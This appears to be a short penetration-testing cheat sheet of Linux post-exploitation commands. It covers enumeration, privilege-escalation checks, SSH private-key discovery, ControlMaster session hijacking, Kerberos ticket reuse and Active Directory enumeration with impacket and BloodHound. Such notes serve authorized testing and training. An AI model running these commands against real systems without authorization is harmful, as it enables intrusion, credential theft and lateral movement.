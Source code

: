 # Linux

## Execution

## Post-Exploitation

### Basic Information
```bash
whoami
id
cat /etc/passwd
cat /etc/group
ls -la /home
ls -la /opt
printenv
ps -aux
cat ~/.bash_history
```

### Network
```bash
ifconfig
ip address
route print
ss -anpl
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
```

### Misc
* upgrade shell
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

## Privilege Escalation

### sudo
```bash
sudo -l
```

### SUID/SGID
```bash
find / -perm -u+s 2>/dev/null
find / -perm -g+s 2>/dev/null
```

### Capabilities
```bash
/usr/sbin/getcap -r / 2>/dev/null
```

### Cron
```
ls -la /etc/cron*
crontab -l
```

### File permissions
```bash
ls -la /etc/passwd
ls -la /etc/group
ls -la /etc/shadow
```

### linpeas
```bash
./linpeas.sh
```

### pspy
```bash
./pspy64
```


## Lateral Movement

### SSH
* private keys
```
ls -la ~/.ssh
ls -la /etc/ssh
```

* Session Hijack with ControlMaster
```bash
ssh -S <session file> <user>@192.168.1.1
```

### Kerberos
search ccache of ssh session
```
ps -aux | grep ssh
pstree | grep ssh
cat /proc/<pid>/environ
```

list loaded ccache
```
klist
```

load ccache
```
export KRB5CCNAME=$(pwd)/krb5cc_0
```

edit /etc/hosts to interact with DC
```
vim /etc/hosts
```

list AD user
```
impacket-GetADUsers -all -k -no-pass -dc-ip 172.16.1.1 <domain>/<user>
```

BloodHound
```
bloodhound-python -c all -k -no-pass --auth-method kerberos -d <domain> -u <user>@<domain> -dc <dc> -ns <name server(dc)> --dns-tcp --zip -v  
```

convert kirbi to ccache
```
impacket-ticketConverter 'ticket.kirbi' ticket.ccache
```
